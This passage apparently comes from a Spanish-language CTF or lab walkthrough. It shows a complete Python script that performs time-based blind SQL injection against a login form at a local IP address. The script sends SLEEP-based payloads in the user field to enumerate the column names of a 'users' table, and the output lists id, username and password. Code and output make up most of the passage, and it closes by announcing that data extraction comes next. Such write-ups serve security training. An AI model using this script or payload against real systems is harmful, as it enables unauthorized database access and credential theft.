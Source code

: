 ```
[*] Enumerando nombres de tablas de la base de datos 'Nebuchadnezzar'...

[+] Tabla #0: users
```

Ahora enumeramso columnas:
```bash
import requests
import time

TARGET = "http://192.168.1.45/login.php"
DELAY = 0.5
MAX_LEN = 20
MAX_COLS = 10  # Número máximo de columnas que intentaremos enumerar

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

print("[*] Enumerando nombres de columnas de la tabla 'users' en la base de datos 'Nebuchadnezzar'...\n")

for col_index in range(MAX_COLS):
    col_name = ""
    for i in range(1, MAX_LEN + 1):
        found = False
        for ascii_code in range(32, 127):  # Caracteres imprimibles
            payload = (
                f"' OR IF(ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns "
                f"WHERE table_schema='Nebuchadnezzar' AND table_name='users' LIMIT {col_index},1),{i},1))={ascii_code},SLEEP({DELAY}),0)-- -"
            )
            data = {
                'user': payload,
                'pass': 'x'
            }

            start = time.time()
            requests.post(TARGET, data=data, headers=headers)
            elapsed = time.time() - start

            if elapsed > DELAY:
                col_name += chr(ascii_code)
                print(f"\r[+] Columna #{col_index}: {col_name}", end='', flush=True)
                found = True
                break

        if not found:
            break
    if col_name:
        print()  # Salto de línea después del nombre completo
```
```
[*] Enumerando nombres de columnas de la tabla 'users' en la base de datos 'Nebuchadnezzar'...

[+] Columna #0: id
[+] Columna #1: username
[+] Columna #2: password

```
Ahora extraemkos los datos
